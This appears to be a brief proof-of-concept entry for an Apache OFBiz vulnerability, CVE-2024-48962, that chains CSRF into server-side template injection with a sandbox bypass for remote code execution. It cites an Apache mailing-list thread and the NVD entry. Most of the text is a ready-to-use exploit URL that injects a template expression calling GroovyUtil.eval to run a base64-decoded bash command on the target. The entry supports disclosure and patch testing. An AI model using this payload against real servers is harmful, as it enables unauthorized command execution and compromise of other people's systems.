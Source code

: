 CSRF to SSTI with sandbox bypass leading to RCE:
- https://lists.apache.org/thread/mmo13ko5xn50f2yq4z0dfk9fdj8ffgt6
- https://nvd.nist.gov/vuln/detail/CVE-2024-48962

poc:
```
https://domain/partymgr/control/viewprofile?partyId=${Static["org.apache.ofbiz.base.util.GroovyUtil"].eval("\'bash -c {echo,B64}|{base64,-d}|bash\'.execute()",null)}
```
